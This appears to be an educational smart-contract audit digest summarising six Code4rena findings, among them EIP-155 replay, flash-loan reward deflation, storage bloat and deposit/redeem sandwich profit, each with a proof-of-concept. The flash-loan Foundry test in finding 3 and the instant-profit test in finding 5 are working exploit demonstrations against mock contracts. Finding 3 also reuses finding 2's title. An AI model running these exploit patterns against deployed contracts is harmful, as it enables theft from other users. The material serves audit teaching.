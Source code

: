 # ETAAcademy-Adudit: 1. Dos

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>01. DOS</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>dos</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [Medium] EIP-155 is not enforced, allowing attackers/malicious operators to profit from replaying transactions

### Absence of enforcement of EIP-155

- Summary: Attackers and malicious operators profit from replaying transactions due to the absence of enforcement of **`EIP-155`**, which prevents replay attacks by including the chain ID in the transaction's signature.

- Impact & Recommendation: Attackers can replay transactions from networks not protected by EIP-155, while operators can replay early user transactions from other EVM networks to collect gas fees or profit directly.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-10-zksync#m-05-eip-155-is-not-enforced-allowing-attackersmalicious-operators-to-profit-from-replaying-transactions) & [Report](https://github.com/code-423n4/2023-10-zksync)

  <details><summary>POC</summary>

  ```rust

                  let should_check_chain_id = if matches!(
                    common_data.transaction_type,
                    TransactionType::LegacyTransaction
                ) && common_data.extract_chain_id().is_some()
                {
                    U256([1, 0, 0, 0])
                } else {
                    U256::zero()
                };
    pub fn extract_chain_id(&self) -> Option<u64> {
        let bytes = self.input_data()?;
        let chain_id = match bytes.first() {
            Some(x) if *x >= 0x80 => {
                let rlp = Rlp::new(bytes);
                let v = rlp.val_at(6).ok()?;
                PackedEthSignature::unpack_v(v).ok()?.1?
            }

  ```

  </details>

## 2. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### ProfitManagers in different markets

- Summary: In GuildToken.sol, setting profitManager in the constructor causes problems as different markets have different ProfitManagers. Calling `notifyPnL()` with negative values from other term types triggers `notifyGaugeLoss()`, leading to reverts because the caller differs from the constructor-set ProfitManager.

- Impact & Recommendation: In GuildToken.sol, ProfitManager should be dynamically called to accommodate different ProfitManagers for each market.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-10-wrong-profitmanager-in-guildtoken-will-always-revert-for-other-types-of-gauges-leading-to-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function testNotifyPnLCannotBeCalledWithNegative() public {
        // Show that for the initial gUSDC term there is no problem.
        credit.mint(address(profitManager), 10);
        profitManager.notifyPnL(term, -1);
        creditWETH.mint(address(profitManagerWETH), 10);
        vm.expectRevert("UNAUTHORIZED");
        profitManagerWETH.notifyPnL(termWETH, -1);
    }

  ```

  </details>

## 3. [Medium] Wrong ProfitManager in GuildToken, will always revert for other types of gauges leading to bad debt

### Staking and unstaking in the same block

- Summary: A borrower initiates a loan with the minimum amount in a term without mandatory partial repayment and transfers the funds to `EXPLOITER` after interest accrual. `EXPLOITER` then utilizes a flash loan to stake the amount into the same term via SurplusGuildMinter, repays the original loan, triggering `notifyPnL()`, which reduces rewards for other Guild holders by updating the `_gaugeProfitIndex`. Finally, `EXPLOITER` unstakes and returns the flash loan.

- Impact & Recommendation: To prevent attackers from instantly accumulating rewards without being long-term stakeholders like others in the system, several protective measures can be implemented. These include disallowing staking and unstaking in the same block, introducing staking/unstaking fees, or implementing a "warm-up period" during which stakers are unable to accumulate interest.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-10-wrong-profitmanager-in-guildtoken-will-always-revert-for-other-types-of-gauges-leading-to-bad-debt) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: GPL-3.0-or-later
    pragma solidity 0.8.13;
    import {Test, console} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
    import {SurplusGuildMinter} from "@src/loan/SurplusGuildMinter.sol";
    contract DeflateGuildHoldersRewardsUnitTest is Test {
        address private governor = address(1);
        address private guardian = address(2);
        address private ALICE = makeAddr("alice");
        address private EXPLOITER = makeAddr("exploiter");
        address private STAKER1 = makeAddr("staker1");
        address private STAKER2 = makeAddr("staker2");
        address private STAKER3 = makeAddr("staker3");
        address private termUSDC;
        Core private core;
        ProfitManager private profitManagerUSDC;
        CreditToken gUSDC;
        GuildToken guild;
        RateLimitedMinter rlgm;
        SurplusGuildMinter sgmUSDC;
        // GuildMinter params
        uint256 constant MINT_RATIO = 2e18;
        uint256 constant REWARD_RATIO = 5e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManagerUSDC = new ProfitManager(address(core));
            gUSDC = new CreditToken(address(core), "gUSDC", "gUSDC");
            guild = new GuildToken(address(core), address(profitManagerUSDC));
            rlgm = new RateLimitedMinter(
                address(core), /*_core*/
                address(guild), /*_token*/
                CoreRoles.RATE_LIMITED_GUILD_MINTER, /*_role*/
                type(uint256).max, /*_maxRateLimitPerSecond*/
                type(uint128).max, /*_rateLimitPerSecond*/
                type(uint128).max /*_bufferCap*/
            );
            sgmUSDC = new SurplusGuildMinter(
                address(core),
                address(profitManagerUSDC),
                address(gUSDC),
                address(guild),
                address(rlgm),
                MINT_RATIO,
                REWARD_RATIO
            );
            profitManagerUSDC.initializeReferences(address(gUSDC), address(guild), address(0));
            termUSDC = address(new MockLendingTerm(address(core)));
            // roles
            core.grantRole(CoreRoles.GOVERNOR, governor);
            core.grantRole(CoreRoles.GUARDIAN, guardian);
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(this));
            core.grantRole(CoreRoles.GAUGE_ADD, address(this));
            core.grantRole(CoreRoles.GAUGE_REMOVE, address(this));
            core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(rlgm));
            core.grantRole(CoreRoles.RATE_LIMITED_GUILD_MINTER, address(sgmUSDC));
            core.grantRole(CoreRoles.GUILD_SURPLUS_BUFFER_WITHDRAW, address(sgmUSDC));
            core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            guild.setMaxGauges(10);
            guild.addGauge(1, termUSDC);
            // labels
            vm.label(address(core), "core");
            vm.label(address(profitManagerUSDC), "profitManagerUSDC");
            vm.label(address(gUSDC), "gUSDC");
            vm.label(address(guild), "guild");
            vm.label(address(rlgm), "rlcgm");
            vm.label(address(sgmUSDC), "sgmUSDC");
            vm.label(termUSDC, "termUSDC");
        }
        function testGuildHoldersRewardsWithoutEXPLOITER() public {
            // 3 users borrow gUSDC and stake them into the gUSDC term
            // In reality there may be more users, but for testing purposes, three are sufficient.
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            gUSDC.mint(address(profitManagerUSDC), interest);
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("------------------------------BEFORE ATTACK------------------------------");
            console.log("Staker1 credit reward:                                  ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                  ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                 ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                  ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                  ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                  ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        function testGuildHoldersRewardsAfterEXPLOITER() public {
            gUSDC.mint(STAKER1, 200e18);
            gUSDC.mint(STAKER2, 800e18);
            gUSDC.mint(STAKER3, 600e18);
            vm.startPrank(STAKER1);
            gUSDC.approve(address(sgmUSDC), 200e18);
            sgmUSDC.stake(termUSDC, 200e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gUSDC.approve(address(sgmUSDC), 800e18);
            sgmUSDC.stake(termUSDC, 800e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gUSDC.approve(address(sgmUSDC), 600e18);
            sgmUSDC.stake(termUSDC, 600e18);
            vm.stopPrank();
            // Alice borrows 10 gUSDC. There's no borrow logic involved due to MockLendingTerm, but it's not necessary for the test.
            uint borrowTime = block.timestamp;
            gUSDC.mint(ALICE, 100e18);
            // NOTE: Alice needs to transfer the borrowed 100e18 gUSDC to EXPLOITER for repayment.

            console.log("-------------------------------AFTER ATTACK-------------------------------");
            console.log("EXPLOITER Credit Balance before flashloan:                              ", gUSDC.balanceOf(EXPLOITER));
            // EXPLOITER gets a flashloan.
            gUSDC.mint(EXPLOITER, 10_000_000e18);
            console.log("EXPLOITER Credit Balance after flashloan:      ", gUSDC.balanceOf(EXPLOITER));
            vm.startPrank(EXPLOITER);
            gUSDC.approve(address(sgmUSDC), 10_000_000e18);
            sgmUSDC.stake(termUSDC, 10_000_000e18);
            console.log("EXPLOITER Credit balance after stake:                                   ", gUSDC.balanceOf(EXPLOITER));
            vm.stopPrank();
            vm.warp(block.timestamp + 150 days);
            uint256 interest = _computeAliceLoanInterest(borrowTime, 100e18);
            vm.prank(governor);
            profitManagerUSDC.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            profitManagerUSDC.notifyPnL(termUSDC, int256(interest));

            sgmUSDC.getRewards(EXPLOITER, termUSDC);
            console.log("EXPLOITER (instant) Credit reward:                     ", gUSDC.balanceOf(address(EXPLOITER)));
            console.log("EXPLOITER (instant) Guild reward:                     ", guild.balanceOf(address(EXPLOITER)));
            //EXPLOITER's profit is based on the guild split since he own almost all of the GUILD totalSupply.
            vm.startPrank(EXPLOITER);
            sgmUSDC.unstake(termUSDC, 10_000_000e18);
            vm.stopPrank();
            console.log("EXPLOITER credit balance after unstake:        ", gUSDC.balanceOf(EXPLOITER));
            // NOTE: EXPLOITER repays the flash loan here.
            sgmUSDC.getRewards(STAKER1, termUSDC);
            sgmUSDC.getRewards(STAKER2, termUSDC);
            sgmUSDC.getRewards(STAKER3, termUSDC);
            console.log("Staker1 credit reward:                                      ", gUSDC.balanceOf(address(STAKER1)));
            console.log("Staker1 guild reward:                                      ", guild.balanceOf(address(STAKER1)));
            console.log("Staker2 credit reward:                                     ", gUSDC.balanceOf(address(STAKER2)));
            console.log("Staker2 guild reward:                                      ", guild.balanceOf(address(STAKER2)));
            console.log("Staker3 credit reward:                                     ", gUSDC.balanceOf(address(STAKER3)));
            console.log("Staker3 guild reward:                                      ", guild.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                                     ", profitManagerUSDC.gaugeProfitIndex(termUSDC));
        }
        // Function that will compute Alice's interest with which notifyPnL will be called so that the attack is as accurate as possible
        function _computeAliceLoanInterest(uint borrowTime, uint borrowAmount) private view returns (uint interest) {
            uint256 _INTEREST_RATE = 0.10e18; // 10% APR --- from LendingTerm tests
            uint256 YEAR = 31557600;
            interest = (borrowAmount * _INTEREST_RATE * (block.timestamp - borrowTime)) / YEAR / 1e18;
        }
    }

  ```

  </details>

## 4. [Medium] An attacker can bloat the Pink runtime storage with zero costs

### Bloat attack by dust accounts

- Summary: The Pink runtime's low Existential Deposit (ED) enables attackers to bloat storage with minimal cost by creating many low-balance accounts. This increases storage costs and fees for all users, posing a significant problem.

- Impact & Recommendation: Consider using a reasonable Existential Deposit. I recommend at least one CENTS (i.e. 1_000_000_000). When an account falls below the ED, it's removed from storage, resetting the nonce.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-phala-network#m-02-an-attacker-can-bloat-the-pink-runtime-storage-with-zero-costs) & [Report](https://code4rena.com/reports/2024-03-phala-network)

  <details><summary>POC</summary>

  ```rust
    -    pub const ExistentialDeposit: Balance = 1;
    +    pub const ExistentialDeposit: Balance = 1 * CENTS;

  ```

  </details>

## 5. [High] Users can get immediate profit when deposit and redeem in PerpetualAtlanticVaultLP

### Calculates shares before updating the total collateral

- Summary: When a user deposits assets, the function calculates shares before updating the total collateral. This creates an opportunity for users to exploit the difference in calculations and gain immediate profits by depositing and redeeming in the same block, potentially leading to sandwich and MEV attacks.

- Impact & Recommendation: Move  `perpetualAtlanticVault.updateFunding`  before  `previewDeposit`  is calculated.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-05-users-can-get-immediate-profit-when-deposit-and-redeem-in-perpetualatlanticvaultlp) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
      function testSandwichProvideFunding() public {
        rdpxV2Core.bond(20 * 1e18, 0, address(this));
        rdpxV2Core.bond(20 * 1e18, 0, address(this));
        skip(86400 * 7);
        vault.addToContractWhitelist(address(rdpxV2Core));
        vault.updateFundingPaymentPointer();
        // test funding succesfully
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 15e6;
        // calculate funding is done properly
        vault.calculateFunding(strikes);
        uint256 funding = vault.totalFundingForEpoch(
            vault.latestFundingPaymentPointer()
        );
        // send funding to rdpxV2Core and call sync
        weth.transfer(address(rdpxV2Core), funding);
        rdpxV2Core.sync();
        rdpxV2Core.provideFunding();
        skip(86400 * 6);
        uint256 balanceBefore = weth.balanceOf(address(this));
        console.log("balance of eth before deposit and redeem:");
        console.log(balanceBefore);
        weth.approve(address(vaultLp), type(uint256).max);
        uint256 shares = vaultLp.deposit(1e18, address(this));
        vaultLp.redeem(shares, address(this), address(this));
        uint256 balanceAfter = weth.balanceOf(address(this));
        console.log("balance after deposit and redeem:");
        console.log(balanceAfter);
        console.log("immediate profit :");
        console.log(balanceAfter - balanceBefore);
    }

  ```

  </details>

## 6. [Medium] asdRouter.sol is at risk of DOS due to vulnerable implementation of NOTE address

### Hardcoding address

- Summary: The documentation advises using `CToken.underlying()` to ensure the correct NOTE token address. However, the current implementation in `asdRouter.sol` sets the noteAddress only at contract deployment, effectively hardcoding it. This poses a vulnerability as the `noteAddress` is used directly for swaps from asdUSDC to NOTE, instead of dynamically retrieving it via CToken.underlying(). Therefore, if the NOTE address changes, the `swap` and `lzcompose` functionalities will be vulnerable to denial-of-service attacks.

- Impact & Recommendation: use `CNote.underlying()` instead of hardcoding.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-canto#m-01-asdroutersol-is-at-risk-of-dos-due-to-vulnerable-implementation-of-note-address) & [Report](https://code4rena.com/reports/2024-03-canto)

  <details><summary>POC</summary>

  ```solidity
  //contracts/asd/asdRouter.sol
        constructor(address _noteAddress, uint32 _cantoLzEID, address _crocSwapAddress, address _crocImpactAddress, address _asdUSDCAddress) {
            //@audit No method to change noteAddress after deployment.
    |>      noteAddress = _noteAddress;
            cantoLzEID = _cantoLzEID;
            crocSwapAddress = _crocSwapAddress;
            crocImpactAddress = _crocImpactAddress;
            asdUSDC = _asdUSDCAddress;
        }

        //contracts/asd/asdRouter.sol
        function _swapOFTForNote(address _oftAddress, uint _amount, uint _minAmountNote) internal returns (uint, bool) {
    ...
            if (_oftAddress < noteAddress) {
                baseToken = _oftAddress;
    |>          quoteToken = noteAddress;
            } else {
    |>          baseToken = noteAddress;
                quoteToken = _oftAddress;
            }
    ...

  ```

  </details>
